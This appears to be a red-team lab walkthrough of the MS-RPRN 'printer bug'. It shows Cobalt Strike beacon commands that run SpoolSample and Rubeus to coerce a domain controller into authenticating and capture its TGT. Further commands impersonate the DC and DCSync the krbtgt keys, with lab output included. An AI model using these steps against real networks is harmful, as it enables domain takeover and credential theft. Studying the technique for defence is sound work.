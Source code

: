 At DerbyCon 2018 Will Schroeder, Lee Christensen and Matt Nelson gave a presentation called "The Unintended Risks of Trusting Active Directory". Within that talk, they demonstrated how an adversary can coerce any machine in a forest to authenticate to another machine in the forest, via a means they dubbed "the printer bug".

The MS-RPRN Print System Remote Protocol (hence the cute name) defines the communications for print job processing and print system management between a print client and a print server. Lee used **RpcRemoteFindFirstPrinterChangeNotificationEx()**, to set up a change notification between a print server (_Machine A_) and a print client (_Machine B_). This caused _Machine A_ to authenticate to _Machine B_.

If _Machine B_ is configured with unconstrained delegation, this would allow us to capture the TGT of _Machine A_. With a TGT for _Machine A_, we can craft service tickets to access any service on _Machine A_ as a local administrator. And of course if _Machine A_ is a domain controller, we will gain Domain Admin level privilege.

Furthermore, this RPC service is accessible by all domain users, is enabled by default since Windows 8 and won't be fixed by Microsoft since it's "by design".

The proof-of-concept code is [here](https://github.com/leechristensen/SpoolSample).

On SRV-1:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:DC-2$ /interval:10 /nowrap

[*] Action: TGT Monitoring
[*] Target user     : DC-2$
[*] Monitoring every 10 seconds for new TGTs
```
  

On WKSTN-1:

```
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe dc-2 srv-1

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
```
Where:

-   `dc-2` is the "target" server
-   `srv-1` is the "capture" server
  

```
[*] 3/9/2021 12:00:07 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  3/9/2021 10:27:15 AM
  EndTime               :  3/9/2021 8:27:13 PM
  RenewTill             :  1/1/1970 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwarded, forwardable
  Base64EncodedTicket   :

    doIFLz [...snip...] MuSU8=

[*] Ticket cache size: 1
```

```
beacon> make_token DEV\DC-2$ FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\dc-2.kirbi

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```


